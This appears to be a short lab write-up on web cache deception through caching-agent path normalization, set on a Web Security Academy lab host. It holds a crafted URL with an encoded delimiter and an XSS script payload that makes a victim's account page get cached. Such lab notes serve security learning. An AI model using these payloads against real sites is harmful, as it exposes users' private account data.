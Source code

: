 # Using caching agent normalization to do web cache deception

In a similar manner, let’s craft an exploit and deliver it via XSS:

NOTE! For this attack to work, a delimiter that is processed by an origin server and not processed by caching agent is needed. In this example, `%23` is such delimiter discovered using fuzzing

```jsx
https://0a9800c503a69dfb80218ff200910032.web-security-academy.net/my-account%23%2f..%2fresources
```

![image.png](Using%20caching%20agent%20normalization%20to%20do%20web%20cache%20%201f9021737a8980c9ad54dc863e432a3d/image.png)

![image.png](Using%20caching%20agent%20normalization%20to%20do%20web%20cache%20%201f9021737a8980c9ad54dc863e432a3d/image%201.png)

```jsx
<script>document.location="https://0a9800c503a69dfb80218ff200910032.web-security-academy.net/my-account%23%2f..%2fresources"</script>
```

After exploit delivery:

![image.png](Using%20caching%20agent%20normalization%20to%20do%20web%20cache%20%201f9021737a8980c9ad54dc863e432a3d/image%202.png)